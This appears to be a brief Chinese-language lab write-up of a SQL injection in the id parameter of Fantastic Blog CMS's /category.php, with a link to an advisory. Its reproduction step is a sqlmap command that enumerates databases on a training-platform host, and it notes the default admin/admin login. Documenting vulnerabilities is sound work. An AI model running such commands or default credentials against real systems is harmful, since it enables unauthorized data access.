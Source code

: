 ## 1. 漏洞介绍
Fantastic Blog (CMS)是一个绝对出色的博客/文章网络内容管理系统。它使您可以轻松地管理您的网站或博客，它为您提供了广泛的功能来定制您的博客以满足您的需求。它具有强大的功能，您无需接触任何代码即可启动并运行您的博客。 该CMS的/category.php文件中，id参数存在一个SQL注入漏洞。
[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2021-26231)
## 2. 漏洞分析
[GitHub - BigTiger2020/Fantastic-Blog-CMS-](https://github.com/BigTiger2020/Fantastic-Blog-CMS-/tree/main)
## 3. 漏洞复现
sqlmap
```python
 python sqlmap.py -u http://eci-……………….cloudeci1.ichunqiu.com/category.php?id=1 -p id --dbs --batch
```
注，后台登录admin/admin